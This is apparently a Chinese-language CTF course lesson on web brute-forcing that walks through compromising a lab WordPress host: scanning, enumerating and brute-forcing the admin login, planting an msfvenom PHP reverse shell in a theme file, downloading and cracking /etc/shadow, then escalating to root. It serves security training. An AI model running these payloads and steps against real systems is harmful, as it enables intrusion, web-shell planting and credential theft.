# 网络安全CTF全套教程：P15：13.14.WEB安全暴力破解 💻🔓

在本节课中，我们将学习WEB安全中的暴力破解技术。我们将通过对目标Web应用程序的用户名和密码进行暴力枚举，最终获得正确的凭据。利用这些凭据登录系统，获取Shell访问权限，并逐步提升至root权限，最终取得目标Flag值。

## 暴力破解概述

暴力破解的基本思想可以概括为**穷举法**。穷举法的基本思想是：根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解。若全部情况验证后都不符合题目的全部条件，则本题无解。



在Web安全中进行暴力破解时，我们尝试所有可能性以获取正确结果。如果未能获取结果，则可以扩大破解范围，直至取得所需的具体值。



## 实验环境搭建 🛠️

本次实验环境如下：
*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：Ubuntu Linux，IP地址为 `192.168.253.20`。

我们的目标是获取靶机上的Flag值，并取得靶机的root权限。

## 靶机信息探测

我们已知靶机的IP地址，但需要探测其开放的服务及版本信息。我们将使用Nmap工具进行扫描。

### 服务与版本探测

首先，使用Nmap进行基础的服务与版本探测。

```bash
nmap -sV 192.168.253.20
```

### 全面信息探测

为了获取更全面的信息（包括服务、版本、路由、操作系统等），我们使用Nmap的`-A`选项进行深度扫描。`-T4`选项代表使用最大线程数以加快扫描速度，`-v`选项用于输出详细过程。

```bash
nmap -T4 -A -v 192.168.253.20
```

扫描结果显示靶机开放了80端口，运行着HTTP服务。这提示我们需要进一步探索该HTTP服务下的敏感信息。

## Web服务敏感信息探测





接下来，我们使用`nikto`工具对靶机的HTTP服务进行敏感目录和文件探测。

```bash
nikto -host http://192.168.253.20
```
（注：若HTTP服务端口为80，可省略端口号；若非80端口，则需指定，如 `http://192.168.253.20:8080`）

`nikto`扫描返回了大量信息，包括Apache版本、操作系统为Ubuntu，并发现了一个名为`/secret/`的敏感目录。

## 访问与识别Web应用

我们使用浏览器访问靶机的IP地址（`http://192.168.253.20`），并尝试访问`/secret/`目录。发现这是一个隐藏的WordPress博客站点。

然而，在尝试访问WordPress登录页面时，遇到了“站点未找到”的错误。通过检查页面源代码，发现登录链接指向一个域名（如`wordpress.secret`），而非IP地址。



为了解决此问题，我们需要编辑攻击机的`/etc/hosts`文件，将该域名解析到靶机的IP地址。



```bash
# 编辑hosts文件
sudo gedit /etc/hosts
# 在文件末尾添加以下行并保存
192.168.253.20 wordpress.secret
```

添加解析后，刷新浏览器即可正常访问WordPress登录界面。

## WordPress用户名枚举与暴力破解

对于一个WordPress站点，我们可以使用`wpscan`工具枚举存在的用户名。

```bash
wpscan --url http://wordpress.secret --enumerate u
```

扫描结果显示存在用户`admin`。

接下来，我们使用Metasploit框架对`admin`用户的密码进行暴力破解。

1.  启动Metasploit控制台：`msfconsole`
2.  使用WordPress登录扫描模块：
    ```bash
    use auxiliary/scanner/http/wordpress_login_enum
    ```
3.  设置模块参数：
    ```bash
    set RHOSTS 192.168.253.20
    set USERNAME admin
    set PASS_FILE /usr/share/wordlists/rockyou.txt # 指定密码字典
    set TARGETURI /secret # 设置WordPress路径
    ```
4.  运行模块开始破解：`run`

破解成功后，显示用户`admin`的密码也为`admin`。

## 登录后台与WebShell上传

使用获得的凭据（admin/admin）成功登录WordPress后台。

我们的下一步是通过后台上传一个WebShell，以获取靶机的反向Shell连接。

1.  **生成PHP反向Shell载荷**：
    在攻击机上使用`msfvenom`生成一个PHP格式的反弹Shell。
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
    ```
    *   `LHOST`：攻击机IP（Kali Linux）。
    *   `LPORT`：攻击机监听端口。

2.  **上传WebShell**：
    在WordPress后台，找到主题编辑器（如`404.php`模板），将生成的`shell.php`代码粘贴并保存。

3.  **设置监听器**：
    在Metasploit中设置处理器来接收反向连接。
    ```bash
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    run
    ```





4.  **触发WebShell**：
    在浏览器中访问包含WebShell的页面（例如 `http://wordpress.secret/secret/wp-content/themes/twentyseventeen/404.php`）。成功后，Metasploit会获得一个Meterpreter会话。





## 权限提升（提权）🚀





在获得的Meterpreter会话中，执行`sysinfo`和`id`命令，发现当前用户是`www-data`，并非root权限。

为了提升至root权限，我们尝试从靶机系统获取本地用户哈希并进行破解。



1.  **下载密码文件**：
    在Meterpreter会话中，下载系统的`/etc/passwd`和`/etc/shadow`文件。
    ```bash
    download /etc/passwd
    download /etc/shadow
    ```



2.  **合并并破解哈希**：
    在攻击机上，使用`unshadow`工具合并两个文件，然后用`john`（John the Ripper）进行破解。
    ```bash
    unshadow passwd shadow > crack.db
    john crack.db
    ```
    破解成功后，获得一个用户名`marinspike`及其密码。

3.  **切换用户与提权**：
    *   在Meterpreter的Shell中，先尝试切换到`marinspike`用户：`su - marinspike`（输入破解得到的密码）。
    *   如果`su`需要终端，可以尝试生成一个交互式Shell：
        ```bash
        python -c ‘import pty; pty.spawn(“/bin/bash”)’
        ```
    *   然后再次尝试切换用户，并利用`sudo`尝试提权：
        ```bash
        sudo su
        # 或
        sudo bash
        ```
        （输入`marinspike`用户的密码）







成功执行后，我们获得了root权限。



## 获取Flag 🏁

提权至root后，通常在根目录下可以找到Flag文件。





```bash
cd /root
ls
cat flag.txt
```



执行`cat flag.txt`即可显示最终的Flag值。

## 总结 📝

